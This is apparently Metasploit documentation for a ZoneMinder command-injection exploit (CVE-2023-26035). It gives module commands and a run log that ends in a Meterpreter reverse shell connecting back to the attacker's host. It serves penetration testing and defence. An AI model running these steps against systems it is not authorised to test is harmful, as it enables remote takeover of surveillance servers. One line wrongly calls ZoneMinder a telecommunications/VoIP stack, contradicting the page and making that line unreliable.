 ## Description

This module exploits a command injection that leads to a remote execution in ZoneMinder surveillance software versions before 1.36.33 and before 1.37.33

More about the vulnerability detail: [2023-26035](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26035).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by sending a sleep command.


## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:

* 1.36.31~64bit on Debian 11

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/tree/1.36.31)
* [Installers](https://zoneminder.readthedocs.io/en/stable/installationguide/index.html)

**The 3rd party debian-repository has packages for the vulnerable versions(for example zoneminder=1.36.31-bullseye1)**


## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/zoneminder_snapshots`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### TARGETURI

Remote web path to the zoneminder installation (default: /zm/)

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Zoneminder 1.36.31-bullseye1

The following demo shows how to use the exploit with minimal settings:

```
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 192.42.1.188:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.249642733018845 seconds.
[+] The target appears to be vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:b5da21a154bc5f46cd2b3648fe9e44931dd74bac,1697109606
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 192.42.0.254
[*] Meterpreter session 1 opened (192.42.1.188:4444 -> 192.42.0.254:56398) at 2023-10-12 11:20:07 +0000
[+] Payload sent

meterpreter >
```
